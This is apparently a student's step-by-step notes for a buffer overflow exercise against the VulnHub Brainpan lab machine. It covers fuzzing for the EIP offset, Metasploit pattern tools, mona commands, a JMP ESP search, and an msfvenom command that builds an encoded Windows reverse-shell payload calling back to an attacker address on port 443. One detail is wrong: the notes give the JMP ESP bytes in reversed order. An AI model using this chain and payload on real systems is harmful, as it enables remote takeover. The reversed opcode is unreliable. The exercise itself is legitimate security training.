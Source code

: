 #bufferOverflow

This is my first BufferOverflow exerise - VulnHub Brainpan

Tool: Immunity Debugger

Step 1 - Find the EIP 
  using fuzzing to locate the buffer overflow point - the EIP address
  
  Create an array of buffers, from 1 to 5900, with increments of 100. Send the buffer to the 
  
  target until received system crash  and checked the size of buffers that made the system crash

  Program: 1-fuzzer_eip.py
  
Step 2 Control the EIP address 
 
  2.1 by binary tree analysis

  2.2 using metasploit
  Generate a pattern of string and send to the system. check the EIP 
  
    locate the pattern_create
    
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 9999
    
    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 9999 -q 39694438
    
  Program: 2-controlling-eip.py
  
  
   
Step 3 Locating Space and prepare the shellCode

    Finding the ESP addess 
    buffer = "A" * 2606 + "B" * 4 + "C" * (3500 – 2606 - 4)
  
  Program: 2-controlling-eip.py

Step 4 Check Bad Characters

    Send \x01...\xff to the system and check which char(s) have been truncated
    Program: 3-controlling-eip.py
  

Step 5 check any memory protections such as DEP adn ASLR
    
    Immunity Debugger Command: !mona modules
  

Step 6 Locate the JMP ESP

    /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
  
    JMP ESP address => \xe4\xff
  
  Immunity Debugger Command: !mona find -s "\xe4\xff" -m <program name>
  
  
Step 7 Generating ShellCode using Metasploit

    Metasploit Command: msfvenom -l payloads
  
    Metasploit Command: msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
  
    -f format
    -e encode
    -b exclude character 
 
 Step 8 Sending the ShellCode 
 
  Program: 4-expolit-lin.py
  
  Program: 4-expolit-win.py
 
  
